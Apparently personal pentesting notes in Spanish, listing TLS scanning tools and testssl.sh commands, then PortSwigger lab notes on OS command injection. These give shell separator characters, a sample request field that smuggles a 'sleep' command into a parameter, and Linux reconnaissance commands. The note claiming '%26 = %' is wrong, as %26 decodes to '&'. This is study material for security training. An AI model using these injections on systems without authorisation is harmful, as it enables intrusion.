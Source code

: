 Desde la web
+ https://www.ssllabs.com/ssltest/analyze.html

ssl scan
+ https://github.com/rbsec/sslscan

testssl
+ https://github.com/drwetter/testssl.sh

Guía de cifrados seguros e inseguros
+ https://ciphersuite.info/cs/?security=all&software=openssl&singlepage=true

## TestSSL from file
~~~bash
# Descargar testssl
git clone --depth 1 https://github.com/drwetter/testssl.sh.git --branch 3.0

# Análisis de varios sitios con output en HTML
./testssl.sh --html --file sitios.txt
~~~



************************************************************************************************
# Web PortSwigger

## Command Injection

### OS command injection, simple case
~~~bash
# Special characters 
&
&&
;
||
|
~~~
Example
~~~bash
productId=1&storeId=1%26sleep+5
~~~
+ %26 = %

## Comandos útiles Linux
~~~bash
whoami
uname -a
ifconfig
netstat -an
ps -ef	
~~~
